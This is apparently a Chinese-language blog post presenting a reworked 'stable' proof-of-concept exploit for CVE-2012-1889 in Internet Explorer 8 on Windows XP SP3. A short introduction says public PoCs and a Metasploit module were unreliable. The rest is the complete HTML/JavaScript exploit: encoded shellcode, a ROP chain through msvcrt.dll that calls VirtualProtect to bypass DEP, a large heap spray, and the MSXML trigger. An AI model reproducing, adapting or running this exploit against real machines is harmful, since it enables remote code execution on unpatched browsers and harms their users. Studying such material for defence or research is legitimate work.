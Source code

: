 ```yaml
---
layout: post
title: kg：IE8 CVE20121889 BypassDEP Stable PoC
---
```

猪肉场事件过后我就跑去考古了，原文也不知道啥时候能再公开，这次巧遇前几年比较火的挂马洞，我测试过程中发现网上好多 Blog 发布的 PoC 在 IE8 下怎么都不好使，甚至连 ShellCode 都跳不过去，调试发现喷射的内存块有问题。也有在用 Metasploit [exploit/windows/browser/msxml_get_definition_code_exec](https://www.exploit-db.com/exploits/19186/)  模块的，配置好 PAYLOAD CMD SRVHOST 生成后我看了下代码，“效果”按道理讲应该很强大，可惜上一次败一次。:<

我修改了下内存块密度和大小，重置了下 ROP 测试后基本百分百了：[656417b1040646cbc6afdeded43c4613](https://gist.github.com/evi1m0/656417b1040646cbc6afdeded43c4613)

![](https://ws1.sinaimg.cn/large/c334041bgy1ff1ai6gmq9j211a0oetdt.jpg)

    <html>
    <head>
        <title>IE8 CVE-2012-1889 BypassDEP Stable PoC</title>
    </head>
    <body>
    <!--
        Tested: WinXP 5.1.2600 Service Pack 3 Build 2600 IE8
        Create: 2017-04-25, evi1m0.bat[at]gmail.com
        msxml3!_dispatchImpl::InvokeHelper+0x9c:
        037dd75a ff7528          push    dword ptr [ebp+28h]
        037dd75d 8b08            mov     ecx,dword ptr [eax]
        037dd75f ff7524          push    dword ptr [ebp+24h]
        037dd762 ff7520          push    dword ptr [ebp+20h]
        037dd765 57              push    edi
        037dd766 6a03            push    3
        037dd768 ff7514          push    dword ptr [ebp+14h]
        037dd76b 68f8a77d03      push    offset msxml3!GUID_NULL (037da7f8)
        037dd770 53              push    ebx
        037dd771 50              push    eax
        037dd772 ff5118          call    dword ptr [ecx+18h] // <<<
        037dd775 89450c          mov     dword ptr [ebp+0Ch],eax
        037dd778 8b06            mov     eax,dword ptr [esi]
        037dd77a 56              push    esi
        037dd77b ff5008          call    dword ptr [eax+8]   // <<<
        037dd77e eb79            jmp     msxml3!_dispatchImpl::InvokeHelper+0x13b (037dd7f9)
    -->
        <object classid="clsid:f6D90f11-9c73-11d3-b32e-00C04f990bb4" id='poc'></object>
        <script>
            var shellcode = unescape("%u16eb%u315b%u50c0%ubb53%u23ad"+
                            "%u7c86%ud3ff%uc031%ubb50%ucafa%u7c81%ud"+
                            "3ff%ue5e8%uffff%u63ff%u6c61%u2e63%u7865"+
                            "%u0065");
            var rop_chain = unescape(
                // Rop Stackpivot
                "%u5ED6%u77BE" + // 0x77BE5ED6 # retn [msvcrt.dll]
                "%ubc13%u77be" + // 0x77bebc13 # POP EBP # RETN [msvcrt.dll]
                "%u5ED5%u77BE" + // 0x77BE5ED5 # xchg eax, esp # retn [msvcrt.dll]
                "%u5ED6%u77BE" + // 0x77BE5ED6 # retn [msvcrt.dll]
                "%u5ED6%u77BE" + // 0x77BE5ED6 # retn [msvcrt.dll]
                "%u5ED6%u77BE" + // 0x77BE5ED6 # retn [msvcrt.dll]
                "%u5ED6%u77BE" + // 0x77BE5ED6 # retn [msvcrt.dll]
                "%u5ED6%u77BE" + // 0x77BE5ED6 # retn [msvcrt.dll]
                // Mana VirtualProtect
                "%ubc13%u77be" + // 0x77bebc13 # POP EBP # RETN [msvcrt.dll]
                "%ubc13%u77be" + // 0x77bebc13 # skip 4 bytes [msvcrt.dll]
                "%u5515%u77c0" + // 0x77c05515 # POP EBX # RETN [msvcrt.dll]
                "%u0201%u0000" + // 0x00000201 # 0x00000201-> ebx
                "%u0cb3%u77c2" + // 0x77c20cb3 # POP EDX # RETN [msvcrt.dll]
                "%u0040%u0000" + // 0x00000040 # 0x00000040-> edx
                "%u09ea%u77c1" + // 0x77c109ea # POP ECX # RETN [msvcrt.dll]
                "%ufa05%u77c2" + // 0x77c2fa05 # &Writable location [msvcrt.dll]
                "%u7a41%u77c1" + // 0x77c17a41 # POP EDI # RETN [msvcrt.dll]
                "%u6101%u77c1" + // 0x77c16101 # RETN (ROP NOP) [msvcrt.dll]
                "%u9dd4%u77c0" + // 0x77c09dd4 # POP ESI # RETN [msvcrt.dll]
                "%uaacc%u77bf" + // 0x77bfaacc # JMP [EAX] [msvcrt.dll]
                "%u1d16%u77bf" + // 0x77bf1d16 # POP EAX # RETN [msvcrt.dll]
                "%u1131%u77be" + // 0x77be1120 # 0x20-0xEF&VirtualProtect() [IAT msvcrt.dll]
                "%u67f0%u77c2" + // 0x77c267f0 # PUSHAD # ADD AL,0EF # RETN [msvcrt.dll]
                "%u1025%u77c2" + // 0x77c21025 # ptr to 'push esp # ret ' [msvcrt.dll]
                "");

            // HeapSpray 400MB
            var fill = "\u0c0c\u0c0c";
            while (fill.length < 0x1000) fill += fill;
            padding  = fill.substring(0, 0x5F6);
            evilcode = padding + rop_chain + shellcode;
            evilcode += fill.substring(0, 0x800 - padding.length - rop_chain.length - shellcode.length);
            while (evilcode.length < 0x100000) evilcode += evilcode;
            var block = evilcode.substring(2, 0x100000 - 0x21);
            var slide = new Array();
            for (var i = 0; i < 400; i++){
                slide[i] = block.substring(0, block.length);
            }

            alert("Allocated!");

            // 0c0c0c08
            var obj = document.getElementById('poc').object;
            var src = unescape("%u0c08%u0c0c");
            while (src.length < 0x1002) src += src;
            src = "\\\\xxx" + src;
            src = src.substr(0, 0x1000 - 10);
            var pic = document.createElement("img");
            pic.src = src;
            pic.nameProp;
            obj.definition(0);
        </script>
    </body>
    </html>
